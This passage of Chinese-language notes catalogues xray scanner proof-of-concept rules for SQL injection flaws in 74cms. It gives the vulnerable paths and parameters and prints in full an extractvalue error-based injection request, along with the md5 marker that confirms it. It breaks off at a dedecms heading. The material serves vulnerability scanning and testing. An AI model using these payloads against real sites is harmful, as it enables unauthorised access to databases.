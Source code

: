 - **路径**：`/plus/ajax_officebuilding.php`
- **参数**：`key`
- **原理：联合查询**
- **检测**：`md5`运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/74cms-sqli-2.yml](https://github.com/chaitin/xray/blob/master/pocs/74cms-sqli-2.yml)

---


# 0x03 74cms-sqli

- **配置整理**：

    > ## rules:  
    >   - **method: `GET`**
    >
    > ```sql
    >     path: 
    >         /index.php
    >             ?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match
    >             &company_id[1][0]=aaaaaaa") 
    >                 and extractvalue(
    >                     1,
    >                     concat(0x7e,md5(99999999))  # 0x7E6566373735393838393433383235643238373165316366613735343733656330
    >                 ) -- a  # ERROR 1105 (HY000): XPATH syntax error: '~ef775988943825d2871e1cfa75473ec'
    >             
    >     expression: |
    >         response.body.bcontains(b"ef775988943825d2871e1cfa75473ec")
    > ```
    >
    > ## detail:   
    >   author: jinqi
    >   links:   
    >         - [https://www.t00ls.net/articles-54436.html](https://www.t00ls.net/articles-54436.html)

- **路径**：`/index.php`
- **参数**：`company_id`
- **原理：extractvalue报错注入**
- **检测**：`md5`运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/74cms-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/74cms-sqli.yml)

---


# 0x04 dedecms-guestbook-sqli

- **配置整理**：
